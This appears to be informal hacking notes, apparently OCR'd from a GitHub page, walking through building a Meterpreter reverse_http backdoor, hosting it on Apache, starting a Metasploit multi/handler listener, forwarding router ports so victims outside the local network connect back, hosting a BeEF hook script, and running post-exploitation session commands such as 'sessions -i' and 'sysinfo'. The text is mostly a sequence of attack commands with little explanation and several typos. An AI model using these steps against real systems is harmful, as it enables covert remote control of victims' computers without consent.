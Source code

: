 `use <# of cs/meterpreter/rev_http>`

`set LHOST <what's my ip search google u'll get public ip>`

`info`

`generate`

copy execute written to link ath and paste it to /var/www/html and listen on the loacl ip using following command

`msfconsole`

`use exploit/multi/handler`

`set PAYLOAD windows/meterpreter/reverse_http`

`set LPORT 8080`

`set LHOST <ifconfig ip>`

`show options`

`exploit`

usually router is the first one in the subnet or you can run the following command to get the private ip of the router

`route -n`

go to router private ip and then select forwarding and set public and target port to 8080 and 80 and target ip address to attackers ip address. we set another port forwarding as our backdoor file is in /var/www/html

`service apache2 start`

### beef tool with another network

copy the script and paste it in the /var/www/html with public ip

beef uses port 3000 , so we would configure our router to forward port 3000, or u can set kali machien as dmz host , it forwards ll ports, not all routers support dmz hosting

### after gaining access to the meterpreteression

`help`

`background`

background is similar to minimizing a window,it won't terminate the session, then you will be able to run other metasploit exploits, to see all the sessions we can run

`sessions -l`

interact with a session

`sessions -i <id of the session which we will get after running sessions -l>`

to see information about the target computer

`sysinfo`
